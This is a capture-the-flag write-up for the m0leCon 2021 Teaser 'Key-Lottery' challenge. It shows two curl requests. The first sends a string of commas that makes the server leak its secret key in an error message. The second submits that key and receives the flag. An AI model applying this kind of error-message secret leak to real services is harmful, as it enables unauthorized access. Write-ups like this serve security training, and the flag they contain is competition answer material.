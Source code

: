 # m0leCon 2021 CTF Teaser - Key-Lottery

## Challenge

Just [guess the correct key](http://key-lottery.challs.m0lecon.it/) an you'll win a flag!

[server.py](server.py)

### Metadata

- Tags: `misc`, `warmup`
- Author: *0000matteo0000*
- Points: 70
- Solves: 116

## Solution

The key is to send in multiple ',' characters and line 49 `...f"got empty key set: {repr(key_set)}"...` should return the `key_set` object as a string, because the check `len(keys) == 0` is before the keys are split up by the ',' characters. After the split, the server checks again `len(keys) > 0` and this is false now.

```bash
> curl 'http://key-lottery.challs.m0lecon.it/guess' \
  --data-raw 'keys=%2C%2C%2C%2C%2C%2C%2C%2C%2C%2C%2C%2C%2C%2C%2C%2C'
got empty key set: {'p1c4XEM2yDQwzCjtYco2tj6toB1A2KXT'}
```

Now we have to upload the received key on the given webpage:

```bash
> curl 'http://key-lottery.challs.m0lecon.it/guess' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data-raw 'keys=p1c4XEM2yDQwzCjtYco2tj6toB1A2KXT' \
  --insecure
{"p1c4XEM2yDQwzCjtYco2tj6toB1A2KXT":"ptm{u_guessed_it_alright_mate}"}
```

Flag: `ptm{u_guessed_it_alright_mate}`